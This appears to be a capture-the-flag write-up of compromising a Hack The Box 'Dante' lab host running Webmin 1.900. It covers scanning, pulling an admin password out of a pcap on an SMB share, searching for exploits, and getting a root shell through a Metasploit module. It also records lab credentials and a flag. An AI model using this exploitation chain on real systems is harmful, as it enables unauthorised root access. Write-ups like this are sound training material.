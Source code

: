 ##### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nmap -Pn -sCV 172.16.1.17
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-06 08:42 EST
Nmap scan report for 172.16.1.17
Host is up (0.13s latency).
Not shown: 985 closed tcp ports (conn-refused)
PORT      STATE    SERVICE        VERSION
80/tcp    open     http           Apache httpd 2.4.41
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 37M   2020-06-25 13:00  webmin-1.900.zip
| -     2020-07-13 02:21  webmin/
|_
|_http-server-header: Apache/2.4.41 (Ubuntu)
139/tcp   open     netbios-ssn    Samba smbd 4.6.2
445/tcp   open     netbios-ssn    Samba smbd 4.6.2
10000/tcp open     http           MiniServ 1.900 (Webmin httpd)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Login to Webmin
Service Info: Host: 127.0.0.1

Host script results:
| smb2-time: 
|   date: 2025-01-06T13:43:09
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: DANTE-NIX03, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.42 seconds
```

- http services are running on port 80, 10000.
- smb is running.

##### smb(139,445)

List shares : 

```bash
┌──(kali㉿kali)-[~/htb]
└─$ smbclient -L 172.16.1.17
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        forensics       Disk      
        IPC$            IPC       IPC Service (DANTE-NIX03 server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
Protocol negotiation to server 172.16.1.17 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
```

Download from `forensics` share :

```bash
┌──(kali㉿kali)-[~/htb/smb_forensics]
└─$ smbclient \\\\172.16.1.17\\forensics
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jun 25 17:01:36 2020
  ..                                  D        0  Wed Jun 10 07:29:28 2020
  monitor                             N   153489  Thu Jun 25 17:01:07 2020

                13865000 blocks of size 1024. 5858688 blocks available
smb: \> get monitor
getting file \monitor of size 153489 as monitor (167.9 KiloBytes/sec) (average 167.9 KiloBytes/sec)


┌──(kali㉿kali)-[~/htb/smb_forensics]
└─$ file monitor                
monitor: pcap capture file, microsecond ts (little-endian) - version 2.4 (Ethernet, capture length 65535)
```

The downloaded file is a `pcap` file so that I can open it on `wireshark`.
I followed `http` packets, and found an useful credential information.

![](attachments/dante_23.png)

It exposes `admin`'s password : `Password6543`
Given the URL includes `/session_login.cgi`, I think it's a captured packet of connection between clients and web server running on here.

##### http(80)

![](attachments/dante_24.png)

The main page is an index page containing several files.
Webmin is a tool enabling user to control system via web UI.

I downloaded `webmin-1.900.zip` file and unzipped it.

```bash
┌──(kali㉿kali)-[~/htb/NIX03/http]
└─$ ls webmin
JSON                    config-suse-linux     iscsi-tgtd           sarg
LICENCE                 config-syno-linux     jabber               sendmail
LICENCE.ja              config-trustix-linux  javascript-lib.pl    servers
README                  config-turbo-linux    krb5                 session_login.cgi
WebminCore.pm           config-united-linux   lang                 setup.bat
WebminUI                config-unixware       lang_list.txt        setup.pl
acl                     config-windows        ldap-client          setup.sh
acl_security.pl         config.cgi            ldap-server          shell
adsl-client             config_save.cgi       ldap-useradmin       shorewall
ajaxterm                copyconfig.pl         logrotate            shorewall6
apache                  cpan                  lpadmin              smart-status
at                      create-module.pl      lvm                  smf
authentic-theme         cron                  mailboxes            software
backup-config           custom                mailcap              spam
bacula-backup           date_chooser.cgi      maketemp.pl          squid
bandwidth               defaultacl            man                  sshd
bind8                   defaulttheme          mime.types           status
blue-theme              dfsadmin              miniserv.pem         stunnel
bsdfdisk                dhcpd                 miniserv.pl          switch_skill.cgi
burner                  dovecot               module_chooser.cgi   switch_user.cgi
<SNIP>
```

It contains many `cgi`, and `pl` files which implies that it's a source directory of `Webmin` application.

```bash
┌──(kali㉿kali)-[~/htb/NIX03/http]
└─$ gobuster dir -u http://172.16.1.17/webmin -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.16.1.17/webmin
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 318] [--> http://172.16.1.17/webmin/images/]
/software             (Status: 301) [Size: 320] [--> http://172.16.1.17/webmin/software/]
/spam                 (Status: 301) [Size: 316] [--> http://172.16.1.17/webmin/spam/]
/version              (Status: 200) [Size: 6]
/net                  (Status: 301) [Size: 315] [--> http://172.16.1.17/webmin/net/]
/file                 (Status: 301) [Size: 316] [--> http://172.16.1.17/webmin/file/]
/status               (Status: 301) [Size: 318] [--> http://172.16.1.17/webmin/status/]
/custom               (Status: 301) [Size: 318] [--> http://172.16.1.17/webmin/custom/]
/servers              (Status: 301) [Size: 319] [--> http://172.16.1.17/webmin/servers/]
/firewall             (Status: 301) [Size: 320] [--> http://172.16.1.17/webmin/firewall/]
/README               (Status: 200) [Size: 2690]
/apache               (Status: 301) [Size: 318] [--> http://172.16.1.17/webmin/apache/]
/mysql                (Status: 301) [Size: 317] [--> http://172.16.1.17/webmin/mysql/]
/time                 (Status: 301) [Size: 316] [--> http://172.16.1.17/webmin/time/]
/lang                 (Status: 301) [Size: 316] [--> http://172.16.1.17/webmin/lang/]
<SNIP>
```

With `gobuster` scan, I can find so many sub pages open which redirect us to `perl` source code mostly.
I can also check the version is `1.900`.

![](attachments/dante_25.png)

Let me search if it has any exploits.

```bash
┌──(kali㉿kali)-[~/htb/NIX03]
└─$ searchsploit webmin       
----------------------------------------------------------- --------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- --------------------
DansGuardian Webmin Module 0.x - 'edit.cgi' Directory Trav | cgi/webapps/23535.txt
phpMyWebmin 1.0 - 'target' Remote File Inclusion           | php/webapps/2462.txt
phpMyWebmin 1.0 - 'window.php' Remote File Inclusion       | php/webapps/2451.txt
Webmin - Brute Force / Command Execution                   | multiple/remote/705.pl
webmin 0.91 - Directory Traversal                          | cgi/remote/21183.txt
Webmin 0.9x / Usermin 0.9x/1.0 - Access Session ID Spoofin | linux/remote/22275.pl
Webmin 0.x - 'RPC' Privilege Escalation                    | linux/remote/21765.pl
Webmin 0.x - Code Input Validation                         | linux/local/21348.txt
Webmin 1.5 - Brute Force / Command Execution               | multiple/remote/746.pl
Webmin 1.5 - Web Brute Force (CGI)                         | multiple/remote/745.pl
Webmin 1.580 - '/file/show.cgi' Remote Command Execution ( | unix/remote/21851.rb
Webmin 1.850 - Multiple Vulnerabilities                    | cgi/webapps/42989.txt
Webmin 1.900 - Remote Command Execution (Metasploit)       | cgi/remote/46201.rb
Webmin 1.910 - 'Package Updates' Remote Command Execution  | linux/remote/46984.rb
Webmin 1.920 - Remote Code Execution                       | linux/webapps/47293.sh
Webmin 1.920 - Unauthenticated Remote Code Execution (Meta | linux/remote/47230.rb
Webmin 1.962 - 'Package Updates' Escape Bypass RCE (Metasp | linux/webapps/49318.rb
Webmin 1.973 - 'run.cgi' Cross-Site Request Forgery (CSRF) | linux/webapps/50144.py
Webmin 1.973 - 'save_user.cgi' Cross-Site Request Forgery  | linux/webapps/50126.py
Webmin 1.984 - Remote Code Execution (Authenticated)       | linux/webapps/50809.py
Webmin 1.996 - Remote Code Execution (RCE) (Authenticated) | linux/webapps/50998.py
Webmin 1.x - HTML Email Command Execution                  | cgi/webapps/24574.txt
Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosu | multiple/remote/1997.php
Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosu | multiple/remote/2017.pl
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metasplo | linux/webapps/47330.rb
----------------------------------------------------------- --------------------
```

Luckily, I was able to find `metasploit` exploit for the Webmin 1.900 version.
Since we don't find the actual Webmin service yet, let's move on to another http service on port 10000.

##### http(10000)

![](attachments/dante_26.png)

Bingo! It returns a login page of Webmin application.
Let's check if the credential we found is working.

![](attachments/dante_27.png)

It works!

##### Shell as `root` on NIX03

I tried all modules in metasploit, and the module `linux/http/webmin_packageup_rce` works to open a meterpreter.

```bash
python3 --version
Python 3.8.2

python3 -c 'import pty;pty.spawn("/bin/bash")'

root@DANTE-NIX03:/var/www/html/webmin/package-updates/# whoami
whoami
root

root@DANTE-NIX03:/var/www/html/webmin/package-updates/# id
id
uid=0(root) gid=0(root) groups=0(root)

root@DANTE-NIX03:~# cat /root/flag.txt
cat /root/flag.txt
DANTE{SH4RKS_4R3_3V3RYWHERE}
```

It worked! And I got a `root` shell.